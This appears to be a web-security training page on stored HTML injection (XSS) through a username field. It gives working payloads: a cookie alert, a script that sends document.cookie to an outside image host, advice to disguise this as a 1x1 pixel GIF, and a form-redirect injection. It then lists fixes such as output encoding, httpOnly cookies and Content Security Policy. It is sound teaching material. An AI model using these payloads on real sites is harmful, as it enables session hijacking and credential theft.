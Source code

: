 
# HTML Injection, part 2

If someone changed their username to:

	username<script>alert('hi')</script>

And then got the admin to look at their profile (username "admin", password "password")... what would happen?

Could this do something more evil?

Maybe there are some cookies to steal?

---

For example, try setting the username to:

	username<script>alert(document.cookie)</script>

Then click back and refresh the page.

Now try creating an image with JavaScript:

	username<script>document.write('<img src=https://www.krang.org.uk/misc/scientist-100.jpg />');</script>

And by combining the two together:

	username<script>document.write('<img src=https://www.krang.org.uk/misc/scientist-100.jpg?c='+encodeURIComponent(document.cookie)+' />');</script>

So after refreshing the page, you will see that the image is requested, with the cookies in it's URL.

To make this less noticeable, you could use a 1x1 pixel transparent GIF, or something more malicious.

---

To fix...

As before, you should encode all user supplied values on the page (i.e. htmlspecialchars).

You can also try to limit the amount of damage that can be done - for example, cookies can be marked as `httpOnly`, which means JavaScript itself cannot steal whats stored in them (if JavaScript makes requests to your website, e.g. via XMLHttpRequest, then these cookies are still sent to the server).

And you can look at adding a [Content Security Policy](https://developers.google.com/web/fundamentals/security/csp/) - this is a really nice way to stop requests being made out to evil websites.

It's also a good idea to not use any inline JavaScript or Styles, and get the Content Security Policy to enforce this. There are cases where this can be tricky, but it's not impossible.

---

Bonus problem...

What happens if the username is set to:

	username<form action=https://example.com class=basic_form>

Now go back, and try making another change, and see where the form is sent to.

You will also notice that the full URL contains all of the details that were in that form :-)
